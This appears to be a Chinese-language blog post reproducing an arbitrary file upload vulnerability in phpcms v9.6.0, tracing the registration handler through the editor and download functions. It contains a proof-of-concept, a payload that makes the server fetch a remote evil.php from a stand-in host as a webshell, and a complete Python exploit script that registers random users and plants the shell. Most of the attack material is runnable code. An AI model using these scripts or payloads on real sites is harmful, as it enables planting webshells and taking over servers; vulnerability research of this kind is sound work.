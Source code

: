 date: 2020-02-12
categories:
- cve复现
tags:
- cve复现
title: phpcms960任意文件上传复现
---
# phpcmsv9.6.0任意文件上传



## 利用条件

phpcms v9.6.0

开启用户注册功能

## 漏洞复现

根据网络上提供的poc进行漏洞复现:

```python
import re
import requests


def poc(url):
    u = '{}/index.php?m=member&c=index&a=register&siteid=1'.format(url)
    data = {
        'siteid': '1',
        'modelid': '1',
        'username': 'test',
        'password': 'testxx',
        'email': 'test@test.com',
        'info[content]': '<img src=http://url/shell.txt?.php#.jpg>',
        'dosubmit': '1',
    }
    rep = requests.post(u, data=data)

    shell = ''
    re_result = re.findall(r'&lt;img src=(.*)&gt', rep.content)
    if len(re_result):
        shell = re_result[0]
        print shell

```

漏洞的关键位置

` phpcms/modules/member/index.php `:135

```php
if($member_setting['choosemodel']) {
    require_once CACHE_MODEL_PATH.'member_input.class.php';
    require_once CACHE_MODEL_PATH.'member_update.class.php';
    $member_input = new member_input($userinfo['modelid']);		
    $_POST['info'] = array_map('new_html_special_chars',$_POST['info']);
    $user_model_info = $member_input->get($_POST['info']);				        				
}
```

`$_POST['info']`被`new_html_special_chars`处理后,直接作为参数传入`$member_input->get`

跟进去发现

```php
if(is_array($data)) {
			foreach($data as $field=>$value) {
				...
				$field = safe_replace($field);
				...
				$func = $this->fields[$field]['formtype'];
				if(method_exists($this, $func)) $value = $this->$func($field, $value);
	
				$info[$field] = $value;
			}
		}
```

`$this->$func($field, $value);`令人浮想联翩的命令,而`$func = $this->fields[$field]['formtype'];`,其中`$field`是我们可控的输入`new_html_special_chars($_POST['info']) as $field=>$value`

而`$this->fields[$field]['formtype'];`有以下取值,我们可以控制其执行某一函数

```php
$this->fields['catid']['formtype']="catid"
$this->fields['typeid']['formtype']="typeid"
$this->fields['title']['formtype']="title"
$this->fields['keywords']['formtype']="keyword"
$this->fields['copyfrom']['formtype']="copyfrom"
$this->fields['description']['formtype']="textarea"
$this->fields['updatetime']['formtype']="datetime"
$this->fields['content']['formtype']="editor"
$this->fields['thumb']['formtype']="image"
$this->fields['relation']['formtype']="omnipotent"
$this->fields['pages']['formtype']="pages"
$this->fields['inputtime']['formtype']="datetime"
$this->fields['posids']['formtype']="posid"
$this->fields['groupids_view']['formtype']="groupid"
$this->fields['voteid']['formtype']="omnipotent"
$this->fields['islink']['formtype']="islink"
$this->fields['url']['formtype']="text"
$this->fields['listorder']['formtype']="number"
$this->fields['template']['formtype']="template"
$this->fields['allow_comment']['formtype']="box"
$this->fields['status']['formtype']="box"
$this->fields['readpoint']['formtype']="readpoint"
$this->fields['username']['formtype']="text"
```

一个一个查看最后发现:

```php
	function editor($field, $value) {
		$setting = string2array($this->fields[$field]['setting']);
		$enablesaveimage = $setting['enablesaveimage'];
		$site_setting = string2array($this->site_config['setting']);
		$watermark_enable = intval($site_setting['watermark_enable']);
		$value = $this->attachment->download('content', $value,$watermark_enable);
		return $value;
	}
```

`editor`会调用download方法,其中`$field`和`$value`都是可控的

跟进`download`:

```php
function download($field, $value,$watermark = '0',$ext = 'gif|jpg|jpeg|bmp|png', $absurl = '', $basehref = '')
	{
		global $image_d;
		$this->att_db = pc_base::load_model('attachment_model');
		$upload_url = pc_base::load_config('system','upload_url');
		$this->field = $field;
		$dir = date('Y/md/');
		$uploadpath = $upload_url.$dir;
		$uploaddir = $this->upload_root.$dir;
		$string = new_stripslashes($value);
		if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i", $string, $matches)) return $value;
		$remotefileurls = array();
		foreach($matches[3] as $matche)
		{
			if(strpos($matche, '://') === false) continue;
			dir_create($uploaddir);
			$remotefileurls[$matche] = $this->fillurl($matche, $absurl, $basehref);
		}
		unset($matches, $string);
		$remotefileurls = array_unique($remotefileurls);
		$oldpath = $newpath = array();
		foreach($remotefileurls as $k=>$file) {
			if(strpos($file, '://') === false || strpos($file, $upload_url) !== false) continue;
			$filename = fileext($file);
			$file_name = basename($file);
			$filename = $this->getname($filename);

			$newfile = $uploaddir.$filename;
			$upload_func = $this->upload_func;
			if($upload_func($file, $newfile)) {
				$oldpath[] = $k;
				$GLOBALS['downloadfiles'][] = $newpath[] = $uploadpath.$filename;
				@chmod($newfile, 0777);
				$fileext = fileext($filename);
				if($watermark){
					watermark($newfile, $newfile,$this->siteid);
				}
				$filepath = $dir.$filename;
				$downloadedfile = array('filename'=>$filename, 'filepath'=>$filepath, 'filesize'=>filesize($newfile), 'fileext'=>$fileext);
				$aid = $this->add($downloadedfile);
				$this->downloadedfiles[$aid] = $filepath;
			}
		}
		return str_replace($oldpath, $newpath, $value);
	}	
```

`download`用`$upload_func($file, $newfile)`来下载文件到服务器,而`$upload_func="copy"`

我们分析一下`download`函数,`$file`和`$newfile`经过的处理

`$file`是`$remotefileurls`中的值

```php
		$string = new_stripslashes($value);//反转义
		if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i", $string, $matches)) return $value;
		$remotefileurls = array();
		foreach($matches[3] as $matche)
		{
			if(strpos($matche, '://') === false) continue;
			dir_create($uploaddir);
			$remotefileurls[$matche] = $this->fillurl($matche, '', '');
		}
```

跟进`$this->fillurl`,大概功能是,去掉url`#`后面的东西

```php
function fillurl($surl, $absurl, $basehref = '') {
		...
		$pos = strpos($surl,'#');
		if($pos>0) $surl = substr($surl,0,$pos);
		...
	}
```



构造`$value='src=http://evil.com/evil.php#.jpg'`



我们再看下`$newfile`

```php
$dir = date('Y/md/');
$uploaddir = $this->upload_root.$dir;
$filename = fileext($file);
$filename = $this->getname($filename);
$newfile = $uploaddir.$filename;
```

`$this->getname`:

```php
function getname($fileext){
		return date('Ymdhis').rand(100, 999).'.'.$fileext;
	}
```



webshell的地址为:` http://website/uploadfile/date('Y/md/')/date('Ymdhis').rand(100, 999).php`

最后payload为:

```
/index.php?m=member&c=index&a=register&siteid=1
post:
info[content]=<img src="http://evil.com/evil.php">
```



## 利用脚本



```python
import re
import requests
import random

def exp(url,evilurl="http://xxxxxxx/evil.php"):
    u = '{}/index.php?m=member&c=index&a=register&siteid=1'.format(url)
    data = {
        'siteid': '1',
        'modelid': '1',
        'username': 'test%d'%random.randint(1,999999),
        'password': 'testxx',
        'email': 'test%d@test.com'%random.randint(1,999999),
        'info[content]': 'src=%s#.jpg'%evilurl,
        'dosubmit': '1',
    }
    rep = requests.post(u, data=data)
    result=re.search(r"VALUES \('src=(.*)','\d*'\)",rep.text).groups()
    print(rep.text)
    print(result)


exp("http://127.0.0.1/cms/phpcms/9.6.0")
```

